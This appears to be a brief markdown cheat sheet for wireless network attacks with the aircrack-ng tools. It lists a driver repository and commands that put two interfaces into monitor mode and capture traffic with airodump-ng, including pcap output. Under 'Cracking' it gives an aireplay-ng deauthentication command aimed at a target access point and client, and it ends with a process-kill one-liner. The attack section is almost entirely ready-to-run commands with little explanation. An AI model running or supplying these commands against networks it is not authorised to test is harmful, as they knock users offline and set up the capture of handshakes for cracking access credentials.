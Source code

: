 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitoring
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band a wlan0
            
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band aba --bssid 00:00:00:00:00:00 --channel 1 \
            --write-interval 5 --output-format pcap wlan0 --write session0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
